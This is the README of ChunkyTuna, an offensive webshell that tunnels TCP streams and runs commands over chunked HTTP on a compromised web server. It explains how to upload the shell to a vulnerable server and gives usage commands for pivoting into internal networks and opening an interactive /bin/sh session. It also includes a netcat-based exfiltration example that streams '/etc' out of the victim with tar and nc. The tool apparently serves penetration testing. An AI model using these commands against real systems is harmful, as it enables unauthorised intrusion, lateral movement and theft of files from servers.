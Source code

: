 # ChunkyTuna

An evolved webshell user 'Chunked transfer encoding' HTTP providing:

 * Tunneling of TCP streams over HTTP
 * Interactive webshell with no reverse connections

For details see [Secarma's blog](https://blog.secarma.co.uk/labs/chunkytuna-a-web-shell-evolved).

Inspired by [Tunna](https://github.com/SECFORCE/Tunna/).

Modalities:

 *  Server connects to target directly ("Connect")
 *  Server listens for connections from target ("Listen")
 *  Server executes commands locally ("eXecute")

## Requirements:

 * A vulnerable webserver with file upload (JSP, PHP or ASPX)
 * Python > 3.x

For testing:

 * Docker or Windows Server with IIS

# Usage

**IMPORTANT** Set a password so your webshell can only be used by you:

 1. Edit the python client `chunkytuna.py`, search for the first line starting with `PASSWORD`, and set a new password 
 2. Edit the webshell, search for the line containing `X-Pwd` and set the same password you set in the python client

Then, upload the webshell on the vulnerable server.

## Connect mode

Mode 'C': webshell *connects* to the target:

	./chunkytuna.py http://$WEBSERVER:$WEBPORT/$PATH_TO_WEBSHELL -r 127.0.0.1:12345 -t $TARGET:$TARGETPORT C

Where:

 * `$TARGET` and `$TARGETPORT` are the system in the same network as the webserver, e.g. 192.168.1.42:80
 * `$WEBSERVER` and `$WEBPORT` are self-explanatory
 * `$PATH_TO_WEBSHELL` is the path to the uploaded file e.g. `/webapps/foo/bar/chunkytuyna.jsp`
 * The `C` stands for connect

Then connect to `localhost:12345` with e.g. a web browser, ssh client, etc; the connection will be encapsulated over HTTP and sent to `$TARGETPORT` on $TARGET`.

[Demo](https://youtu.be/gV3TIKi_ewg)

## Listening mode (for exfil etc.)

Mode 'L': webshell *listens* for connections from a target:

	./chunkytuna.py http://$WEBSERVER:$WEBPORT/$PATH_TO_WEBSHELL -r 127.0.0.1:1234 -t 0.0.0.0:12345 L
 
Where:

 * `0.0.0.0:12345` is the port **on the remote web server**
 
Requirement:

 * The "internal" IP address of the webserver

Then:

 * Open a listener on port `1234`
 * Have your victim connect to port 12345 of the webserver (that is the internal IP)

Example:

 * Listen with:

	    mkdir -p exfil ; nc -lnvp 1234 | tar xf - -C exfil

 * On the victim side run:

	    tar cf - /etc | nc $WEBSERVER_INTERNAL_IP 12345

[Demo](https://youtu.be/5Q_b5VU04lk)



## Execution of commands

Mode 'X': run commands on the webserver:

	./chunkytuna.py http://$WEBSERVER:WEBPORT/$PATH_TO_WEBSHELL X -r 127.0.0.1:12345 -t /bin/sh

Then connect to `localhost:12345` and enjoy a shell :)

[Demo](https://youtu.be/7iVEV6pepR8)


# Miscellanea

## Docker stuff

To test ChunkyTuna locally, use the Docker containers provided in each directory: `asp/Docker`, `jsp/Docker`, `php/Docker`. There's a convenience script called `build-and-run-docker.sh` that sets up the environment for you. 

To find the IP of each container use `demo/get-container-ip.sh` followed by the name of the container (e.g. `target`, `listener-jsp`, `listener-php` etc.).

To log on a Docker container to perform e.g. emergency maintenance or run netcat:

    docker exec -it listener-jsp /bin/bash

## Testing

For unit testing, run:

    python3 -m unittest

